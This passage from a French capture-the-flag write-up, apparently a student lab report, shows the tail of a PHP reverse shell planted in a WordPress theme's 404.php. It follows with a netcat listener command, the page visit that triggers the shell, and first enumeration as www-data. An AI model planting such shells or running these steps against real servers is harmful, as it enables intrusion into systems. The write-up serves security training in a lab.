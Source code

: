 ```php
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?> 
```

> N'oubliez pas de sauvegarder en bas de la page.

On peut alors utiliser `netcat` depuis la machine hôte, qui permet de créer des sockets TCP ou UDP, que ce soit en connexion ou en attente de connexion. On précise le port configuré précedemennt (soit 9000).

```bash
nc -nlsp 9000
```

![image](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/673aeffb-db52-450e-87d3-2ed112f18230)

En accédant à la page [404](http://timetime.thm//blog/wp-content/themes/twentyseventeen/404.php), on lance le reverse shell. Ce qui engendre une connexion dans le terminal dans lequel vous avez lancé la commande précédente.

![image](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/220d4242-3d90-49c1-b011-21cda34bbd67)

En regardant les différents emplacement accessible par l'utilisateur `www-data` sur le serveur, on trouve le dossier `opt` dans lequel sont présent les fichiers ci-dessous. 

![image](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/ed606bb1-c497-45c4-8b31-226fc80718ba)
